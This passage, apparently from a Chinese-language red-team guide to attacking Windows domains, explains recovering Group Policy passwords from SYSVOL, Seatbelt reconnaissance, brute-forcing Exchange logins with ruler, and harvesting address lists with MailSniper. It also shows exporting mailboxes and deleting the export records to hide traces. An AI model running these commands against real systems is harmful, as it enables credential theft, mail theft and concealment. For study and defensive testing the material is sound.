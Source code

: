 ## 1.13、GPP

当分发组策略时，会在域的SYSVOL目录下生成一个gpp配置的xml文件，如果在配置组策略时填入了密码，则其中会存在加密过的账号密码。这些密码，往往都是管理员的密码。

其中xml中的密码是aes加密的，密钥已被微软公开：

https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN

可以使用相关脚本进行解密，如：

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1

域用户登录脚本存在目录也会存在敏感文件：

\\domain\Netlogon

## 1.14、Seatbelt

可以利用Seatbelt工具做一些自动化的信息收集，收集的信息很多，包括不限于google历史记录、用户等等：

![图片](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I09rDuFufCf1HibI0P2Nn9ZqJJsNMIbRrwLo3JG73J4ibeOyH7XaA5zbTQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

当有了chrome的访问历史时，就可以知道该用户访问的一些内部站点的域名/IP，可以提高内网资产产的摸索效率。

## 1.15、Exchange

exchange一般都在域内的核心位置上，包括甚至安装在域控服务器上，因此我们需要多多关注exchange的相关漏洞，如果拿下exchange机器，则域控也不远了。

**1.15.1 邮箱用户密码爆破**

使用ruler工具对owa接口进行爆破：

./ruler  --domain targetdomain.com brute --users /path/to/user.txt --passwords  /path/to/passwords.txt

ruler工具会自动搜索owa可以爆破的接口，如：

https://autodiscover.targetdomain.com/autodiscover/autodiscover.xml

其他如ews接口也存在被暴力破解利用的风险：

https://mail.targetdomain.com/ews

**1.15.2 通讯录收集**

在获取一个邮箱账号密码后，可以使用MailSniper收集通讯录，当拿到通讯录后，可以再次利用上述爆破手段继续尝试弱密码，但是记住，密码次数不要太多，很有可能会造成域用户锁定：

Get-GlobalAddressList  -ExchHostname mail.domain.com -UserName domain\username -Password  Fall2016  -OutFile global-address-list.txt

**1.15.3 信息收集**

当我们拿下exchange服务器后，可以做一些信息收集，包括不限于用户、邮件。

获取所有邮箱用户：

Get-Mailbox

导出邮件：

New-MailboxexportRequest  -mailbox username -FilePath ("\\localhost\c$\test\username.pst")

也可以通过web口导出，登录：

https://mail.domain.com/ecp/

导出后会有记录，用如下命令可以查看：

Get-MailboxExportRequest

删除某个导出记录：

Remove-MailboxExportRequest  -Identity 'username\mailboxexport' -Confirm:$false